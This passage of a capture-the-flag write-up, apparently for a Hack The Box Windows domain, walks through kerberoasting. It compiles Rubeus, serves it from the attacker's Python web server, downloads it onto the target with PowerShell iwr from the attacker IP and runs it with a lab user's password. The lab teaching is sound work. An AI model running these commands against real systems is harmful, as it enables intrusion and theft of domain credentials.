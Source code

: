 
We can see port 88 is open on the target, though it didn't show up in our `nmap` scan. This probably means that it has been blocked off by a firewall. Port 88 is where the kerberos authentication takes place, and the fact that this port has been blocked by the firewall tells me there is more to it. Specifically, we want to test for [kerberoasting](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast).


There are a few ways we can test and exploit kerberoasting. One is using `impacket-GetUserSPNs` from our attack machine, though this will require us to tunnel port 88 to our attack machine.


Another approach is to use something like [Robeus](https://github.com/GhostPack/Rubeus), which is an offensive toolkit for kerberos. This will require us to compile it on a Windows VM that has a matching .NET version with the target.


I decided to go for the later choise, since I've never used it before. 


To compile it, I use the following Windows 10 VM build:

```cmd
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type
OS Name:      Microsoft Windows 10 Pro                           
OS Version:   10.0.19045 N/A Build 19045                         
System Type:  x64-based PC
``` 

I also have [Visual Studio 2019 Community Edition](https://visualstudio.microsoft.com/vs/community/) installed on it as well. To which I load the project form the git repository, build it, and transfer it over to my attack machine.


Then, I host the file via a python web server using:

```bash
python3 -m http.server 80
```

And download it from the target using:

```powershell
iwr "http://10.10.14.51/Rubeus.exe" -OutFile r.exe
```

Now, we can try to locate any kerberostable users with the following command:

```powershell
.\r.exe kerberoast /creduser:htb.local\amanda /credpassword:Ashare1972
```
